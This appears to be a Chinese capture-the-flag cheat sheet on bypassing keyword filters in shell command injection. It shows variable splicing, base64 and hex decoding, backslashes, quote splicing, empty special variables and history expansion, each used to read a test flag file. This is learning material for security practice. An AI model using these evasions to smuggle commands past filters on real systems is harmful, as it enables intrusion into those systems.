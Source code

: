 ### 关键字绕过
- 变量绕过
- 编码绕过
- 反斜杠
- 拼接符
- 历史命令绕过
- `$*`、`$@`、`$x`（x表示1-9）、`${x}`（x为任意字母或数字）,在没有传参的情况下，这些特殊变量都是为空

<br/>

```php
//变量绕过
root@gnq:~# a=l;b=s;$a$b
Desktop  Documents  Downloads  flag.txt  Music  Pictures  Public  Templates  Videos  vmware-tools-distrib

//base64绕过
root@gnq:~# ` echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d` 
flag{2333333_test_file}

//十六进制绕过
root@gnq:~# `echo 63617420666c61672e7478740a | xxd -r -p`
flag{2333333_test_file}

//反斜杠
root@gnq:~# ca\t \f\l\a\g.\t\x\t
flag{2333333_test_file}

//拼接符
root@gnq:~# cat "f"lag."t"x"t"
flag{2333333_test_file}

//特殊变量
root@gnq:~# ca$*t flag.txt
flag{2333333_test_file}

root@gnq:~# ca$@t flag.txt
flag{2333333_test_file}

root@gnq:~# ca$2t flag.txt
flag{2333333_test_file}


```
利用历史命令绕过
```php
root@gnq:~# ca
root@gnq:~# t
root@gnq:~# fla
root@gnq:~# g.txt

root@gnq:~# history 
    1  ca
    2  t
    3  fla
    4  g.txt
    5  history 
root@gnq:~# !1!2 !3!4
cat flag.txt
flag{2333333_test_file}
```
<br/>
